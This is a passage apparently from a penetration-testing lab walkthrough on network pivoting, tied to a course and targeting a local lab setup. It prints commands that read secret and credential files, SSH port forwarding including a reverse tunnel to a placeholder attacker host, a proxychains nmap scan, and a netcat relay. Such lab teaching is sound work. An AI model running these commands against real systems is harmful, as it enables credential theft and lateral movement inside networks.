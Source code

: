 ```bash
cat /opt/secrets/prod.env
cat /opt/secrets/api_keys.txt

# Check for other users
cat /etc/passwd | grep -v nologin
```

### 4.3 Network Pivoting (Cours 09 - Pivoting)

#### Method 1: SSH Local Port Forwarding

```bash
# From your attack machine:
# Forward internal MongoDB to your local machine
ssh -L 27018:mongo:27017 -p 2222 admin@localhost

# Now you can access MongoDB on localhost:27018
mongosh mongodb://localhost:27018/intellimetrics
```

#### Method 2: SSH Remote Port Forwarding

```bash
# From the compromised SSH server:
# Forward your local service to the internal network
ssh -R 9000:localhost:4444 attacker@<attacker-ip>

# Now internal services can connect back to your listener on port 9000
```

#### Method 3: SSH Dynamic Port Forwarding (SOCKS Proxy)

```bash
# From your attack machine:
ssh -D 1080 -p 2222 admin@localhost

# Configure proxychains
echo "socks5 127.0.0.1 1080" >> /etc/proxychains4.conf

# Use proxychains to access internal network
proxychains nmap -sT 172.18.0.0/24
proxychains curl http://mongo:27017
```

#### Method 4: Netcat Relay (Cours 09 - Relai Netcat)

```bash
# On the compromised SSH server:
# Create a named pipe
mknod backpipe p

# Set up the relay (forward port 2222 to internal service)
nc -l -p 9999 0<backpipe | nc 172.18.0.3 8080 1>backpipe

# From attacker machine, access internal service through relay:
curl http://localhost:9999/api/admin/config
```
